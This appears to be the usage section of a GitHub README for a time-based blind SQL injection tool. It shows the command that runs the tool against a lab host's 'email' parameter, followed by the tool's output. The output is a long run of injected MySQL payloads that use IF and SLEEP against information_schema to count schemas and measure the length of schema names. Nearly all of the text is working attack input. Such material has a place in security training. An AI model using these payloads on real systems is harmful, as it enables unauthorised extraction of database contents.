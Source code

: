 # Time Based Blind SQL Injection Tool
```text/x-sh
python time_based_blind_sql_injection.py http://192.168.33.10/sqli/time_based_blind.php GET [\'email\'] [\'arthur@guide.com\'] -t 4 -l
```


Starting attack on URL: http://192.168.33.10/sqli/time_based_blind.php

Using 4 thread
Average response time: 0.0122010510204 s
Using sleep time: 0.122010510204 s


Determinating number of rows of table: SCHEMATA

{email: arthur@guide.com' AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=0,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=1,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=2,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=3,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=4,SLEEP(0.122010510204),SLEEP(0)) -- -}

SCHEMATA: 4 rows


Determinating number of characters in the field: SCHEMA_NAME

{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=1,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=2,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=3,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=4,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=5,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=6,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=7,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=8,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=9,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=10,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=11,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=12,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=13,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=14,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=15,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=16,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=17,SLEEP(0.122010510204),SLEEP(0)) -- -}